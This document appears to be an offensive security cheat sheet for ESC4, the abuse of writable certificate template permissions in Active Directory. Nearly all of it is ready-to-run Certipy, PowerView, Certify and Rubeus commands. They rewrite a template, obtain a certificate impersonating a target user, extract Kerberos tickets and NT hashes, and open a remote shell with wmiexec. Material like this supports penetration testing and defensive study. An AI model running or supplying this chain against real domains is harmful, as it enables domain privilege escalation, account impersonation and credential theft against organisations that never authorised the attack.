 # ESC4—Vulnerable Certificate Template Access Control (ACL) Abuse

## Theory

If you have powerful rights (e.g., **FullControl**, **WriteDACL**, **WriteOwner**, **WriteProperty**) over a certificate **template** object in AD, you can change its settings to make it behave like an **ESC1**-style template: low-privileged users can enroll, **enrollee supplies subject (SAN)** is enabled, no manager approval or authorized signatures are required, and the template has an **authentication EKU**. Then you request a cert with a **target user’s UPN in the SAN** and authenticate as that user.

## Requirements

- Rights over the **template** sufficient to modify its ACL/properties (e.g., **FullControl or GenericWrite**).
- Modify the template to:
    - **Grant Enroll** to a low-privileged principal (e.g., Domain Users).
    - **Disable manager approval**: clear `PEND_ALL_REQUESTS` in `mspki-enrollment-flag`.
    - **Disable authorized signatures**: set `mspki-ra-signature` to `0`.
    - **Allow SAN/subject supply**: set `ENROLLEE_SUPPLIES_SUBJECT` in `mspki-certificate-name-flag`.
    - **Enable authentication EKU** via `pkiextendedkeyusage` and `mspki-certificate-application-policy`, e.g.:
        - Client Authentication `1.3.6.1.5.5.7.3.2`
        - (or) Smart Card Logon `1.3.6.1.4.1.311.20.2.2`
        - (or) PKINIT Client Authentication `1.3.6.1.5.2.3.4`
        - (or) Any Purpose `2.5.29.37.0`
        - (or) No EKU

### Placeholders

`<DOMAIN>` `<FOREST_DN>` `<DC_IP>` `<CA_NAME>` `<CA_FQDN>` `<TEMPLATE_NAME>` `<USER>` `<PASS>` `<TARGET_UPN>` `<TARGET_USER>` `<OUT_PEM>` `<OUT_PFX>`

---

## Linux

### Enumerate (find Templates You Can control)

```bash
certipy find -u '<USER>@<DOMAIN>' -p '<PASS>' -dc-ip <DC_IP> -vulnerable -stdout
# In "Object Control Permissions", confirm your account/group has FullControl/WriteDACL/WriteOwner/WriteProperty on <TEMPLATE_NAME>.
```

### Attack—one-shot Template Hardening Bypass (save → Modify → Abuse → restore)

1. **Save current template config**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>' -save-old
# => writes <TEMPLATE_NAME>.json
```

1. **Auto-modify template to ESC1-like state**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>'
# This sets: EnrolleeSuppliesSubject, adds auth EKU, disables manager approval & authorized signatures, etc.
```

1. **Request cert impersonating target**

```bash
certipy req -u '<USER>@<DOMAIN>' -p '<PASS>' -ca '<CA_NAME>' \
  -template '<TEMPLATE_NAME>' -upn '<TARGET_UPN>' -out '<OUT_PFX>'
# => '<OUT_PFX>' contains a cert+key for <TARGET_UPN>
```

1. **Authenticate / extract target creds**

```bash
certipy auth -pfx '<OUT_PFX>.pfx' -username '<TARGET_USER>' -domain '<DOMAIN>' -dc-ip <DC_IP>
# => Saves <TARGET_USER>.ccache and may output NT hash.
```

1. **Restore original template configuration**

```bash
certipy template -u '<USER>@<DOMAIN>' -p '<PASS>' -template '<TEMPLATE_NAME>' -configuration '<TEMPLATE_NAME>.json'
```

1. **Use TGT**

```bash
KRB5CCNAME=<TARGET_USER>.ccache wmiexec.py -k -no-pass <TARGET_HOST_FQDN>
```

---

## Windows

### Enumerate (identify Template You Can edit)

```powershell
.\Certify.exe find
# Manually check "<TEMPLATE_NAME>" in "Object Control Permissions":
#   you (or your group) should have Full Control / WriteOwner / WriteDacl / WriteProperty.
```

### Attack—make Template ESC1-like with PowerView, then Enroll & Authenticate

1. **Load PowerView**

```powershell
Set-ExecutionPolicy Bypass -Scope CurrentUser -Force
Import-Module .\PowerView.ps1
```

1. **Grant Enroll to a broad group (e.g., Domain Users)**

```powershell
Add-DomainObjectAcl -TargetIdentity '<TEMPLATE_NAME>' -PrincipalIdentity 'Domain Users' `
  -RightsGUID '0e10c968-78fb-11d2-90d4-00c04f79dc55' `
  -TargetSearchBase 'LDAP://CN=Configuration,<FOREST_DN>' -Verbose
```

1. **Disable manager approval (clear PEND_ALL_REQUESTS)**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-enrollment-flag'=9} -Verbose
# 9 = INCLUDE_SYMMETRIC_ALGORITHMS(1) + PUBLISH_TO_DS(8); does not include PEND_ALL_REQUESTS(2)
```

1. **Disable authorized signatures**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-ra-signature'=0} -Verbose
```

1. **Allow requester-supplied subject/SAN**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-certificate-name-flag'=1} -Verbose
# 1 = ENROLLEE_SUPPLIES_SUBJECT
```

1. **Set authentication EKU(s)**

```powershell
Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'pkiextendedkeyusage'='1.3.6.1.5.5.7.3.2'} -Verbose

Set-DomainObject -SearchBase 'CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,<FOREST_DN>' `
  -Identity '<TEMPLATE_NAME>' -Set @{'mspki-certificate-application-policy'='1.3.6.1.5.5.7.3.2'} -Verbose
```

1. **(Optional) Verify template now shows as vulnerable**

```powershell
.\Certify.exe find /vulnerable
```

1. **Request a cert with target’s UPN in SAN**

```powershell
.\Certify.exe request /ca:<CA_FQDN>\<CA_NAME> /template:<TEMPLATE_NAME> /altname:<TARGET_UPN> > <OUT_PEM>
```

1. **Convert to PFX**

```powershell
& "C:\Program Files\OpenSSL-Win64\bin\openssl.exe" pkcs12 -in <OUT_PEM> -keyex `
  -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out <OUT_PFX>
```

1. **Authenticate as target**

```powershell
.\Rubeus.exe asktgt /user:<TARGET_USER> /certificate:<OUT_PFX> /getcredentials /nowrap
# => Base64 TGT and possibly NTLM for <TARGET_USER>
```

**Cleanup:** Revert the template to its original settings (use the saved JSON via `certipy template -configuration <TEMPLATE_NAME>.json` from Linux, or manually undo the attributes and ACL changes if working solely from Windows).
